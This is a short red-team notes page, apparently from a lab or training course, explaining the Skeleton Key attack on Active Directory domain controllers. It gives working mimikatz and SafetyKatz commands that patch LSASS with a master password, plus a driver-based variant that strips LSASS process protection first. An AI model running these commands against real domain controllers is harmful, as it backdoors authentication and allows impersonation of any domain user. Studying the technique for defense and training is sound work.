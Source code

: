 # Skeleton Key

{% hint style="warning" %}
**OPSEC**: The Skeleton Key method is considered highly OPSEC-risky due to direct interaction with the DC and the potential for detection in memory or logs.
{% endhint %}

The Skeleton Key attack allows an attacker to **patch the LSASS process on a Domain Controller to accept a single hardcoded "master password" for all domain users**. With this backdoor in place, the attacker can authenticate as any user — including privileged accounts — without modifying actual credentials in Active Directory.

Executing this attack **requires Domain Admin privileges** and direct code injection into LSASS. It is **not persistent across reboots** and is known to interfere with services like Active Directory Certificate Services (AD CS), potentially causing instability.

{% code overflow="wrap" %}
```powershell
# The default password is mimikatz
.\SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcop.moneycorp.local
```
{% endcode %}

If LSASS is running as a **Protected Process Light (PPL)** — which is common in hardened environments — standard Skeleton Key injection will fail. In such cases, the attack can still be performed using the **Mimikatz driver** (`mimidriv.sys`), which must be placed on disk and loaded on the target DC:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "misc::skeleton" "!-"
```
{% endcode %}

This approach temporarily disables protection on LSASS to allow patching, but it is **extremely noisy**, involving kernel-mode driver installation, which is likely to trigger alerts in modern EDRs and logging systems.
